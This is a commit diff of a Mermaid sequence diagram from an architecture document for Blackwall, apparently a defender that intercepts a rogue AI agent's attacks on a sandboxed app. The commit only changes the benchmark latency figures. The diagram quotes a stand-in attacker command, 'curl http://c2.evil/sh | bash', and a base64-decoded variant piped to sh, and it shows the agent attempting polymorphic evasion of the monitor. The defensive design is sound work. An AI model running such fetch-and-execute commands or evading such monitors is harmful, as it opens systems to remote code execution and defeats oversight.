

The second of 4 diagrams in ENTERPRISE_ARCHITECTURE.md (JAaron93/Blackwall), drawn with Mermaid before and after one commit. The commit also changed 2 other files, not shown here.

Commit message:
docs: update empirical evaluation and latency benchmarks to v3.0 results

````diff
--- a/ENTERPRISE_ARCHITECTURE.md
+++ b/ENTERPRISE_ARCHITECTURE.md
@@ -50,33 +50,33 @@
 ```mermaid
 sequenceDiagram
     autonumber
     actor Spectator as Terminal Spectator / Judge
     participant MockApp as Vulnerable FastAPI App (localhost:8000)
     participant RogueAgent as Rogue Agent (Qwen3-Coder 480B @ 600 RPM)
     participant Blackwall as Blackwall Guardian Defender
     participant LocalTSG as SQLite Threat Graph (WAL)
 
     Spectator->>Blackwall: Launch demo_live.py (Rich Dual-Column TUI)
     Blackwall->>MockApp: Initialize Target Sandbox Endpoints
 
     rect rgb(40, 20, 20)
         Note over RogueAgent,Blackwall: Wave 1: Novel Attack Execution
         RogueAgent->>MockApp: Attempt 1: Injects Reverse Shell Payload (curl http://c2.evil/sh | bash)
         MockApp-->>Blackwall: sys.addaudithook / before_tool_callback triggers
         Blackwall->>Blackwall: Structural Gating -> ESCALATE
         Blackwall->>LocalTSG: Cosine Search: Novel pattern (No Match)
         Blackwall->>Blackwall: Semantic Gating (GTI + CBM + Intent Scoring = 0.88)
         Blackwall-->>RogueAgent: VERDICT: BLOCK (PermissionError Raised)
         Blackwall->>LocalTSG: Auto-Generate Threat Signature (768-dim Vector)
     end
 
     rect rgb(20, 40, 20)
         Note over RogueAgent,Blackwall: Wave 2: Polymorphic Evasion Attempt
         RogueAgent->>MockApp: Attempt 2: Polymorphic Variant (base64 -d | sh via port 9443)
         MockApp-->>Blackwall: before_tool_callback triggers
         Blackwall->>LocalTSG: Query Vector Cosine Similarity
         LocalTSG-->>Blackwall: Match Found: Similarity 0.91 >= 0.85 Threshold
-        Blackwall-->>RogueAgent: VERDICT: BLOCK via Signature (~12ms)
-        Note over Blackwall,Spectator: 118x Speedup with Zero LLM Inference
+        Blackwall-->>RogueAgent: VERDICT: BLOCK via Signature (~7.0ms)
+        Note over Blackwall,Spectator: 144x Speedup with Zero LLM Inference
     end
 ```
````
